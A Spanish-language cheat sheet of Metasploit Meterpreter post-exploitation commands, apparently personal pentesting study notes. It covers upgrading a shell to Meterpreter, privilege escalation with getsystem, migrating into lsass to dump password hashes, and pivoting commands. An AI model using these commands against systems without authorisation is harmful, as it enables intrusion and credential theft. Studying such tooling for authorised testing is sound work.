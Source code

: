 # Meterpreter Commands

Tags: #Comandos #Meterpreter 

## Meterpreter 

Es un multi-funcional payload que es ejecutado en memoria en un sistema victima haciéndolo difícil de detectar. El se comunica a través de un socket stager y provee a un atacante un interpretado de comandos interactivo de un sistema victima que facilite la ejecución de comandos del sistema, navegación del sistema de archivos,  keylogging y mucho mas. 

## Convertir una Shell a Meterpreter

```bash 
# Debes de tener una sesion activa y en background en Metasploit 

❯ use post/multi/manage/shell_to_meterpreter
	❯ set session <ID>
	❯ run 

❯ sessions -l                # Miramos las sesiones activas, l (ele) = Listar 
❯ sessions -i <ID>           # Usar la sesion con Meterpreter
```

## Comandos con Meterpreter

```bash 
# Cuando tienes la sesion con Meterpreter 

❯ ctrl + z                   # Colocas la sesion en 'Background'
❯ background                 # Ponemos la sesion en segundo plano
❯ sessions                   # Miramos las sesiones activas 
❯ sessions -u <ID>           # Regresamos a la sesion 


❯ sysinfo                    # Muestra informacion del Windows 
❯ getuid                     # Miramos el nombre del usuario 
❯ getprivs                   # Miramos los  procesos con privilegios 
❯ getsystem                  # Miras los procesos privilegiados 
❯ pgrep explorer             # Mirar el numero del proceso y asi poder escalar privilegios 
❯ search -f *.doc            # Buscar un archivo 

❯ shell                      # Nos carga una shell
	❯ /bin/bash -i          # Si no nos crea la Shell con el comando anterior, lo hacemos con este 
❯ pwd                        # Nos muestra la ruta del dir actual 
❯ cd /                       # Nos dirigimos a la raiz 'C:\'
❯ cat file.txt               # Miramos el contenido de un archivo 

❯ hashdump                   # Te muestra todos los hashes de los usuarios, en dado caso que te salga este error 'Operation_failed: The parameter is incorrect', debemos de migrar a otro proceso.
	❯ pgrep lsass              # Mirar el numero del proceso 'lsass'  
	❯ migrate <ID>             # Nos migramos al proceso y asi poder mejorar la consola de Meterpreter, por lo que ahora podremos hacer el dumpeo de Hashes.  
```

## Para hacer Pivoting con Metasploit

```bash 
❯ arp                      #
❯ netstat                  # 
❯ route                    # 
❯ portfwd                  # 
```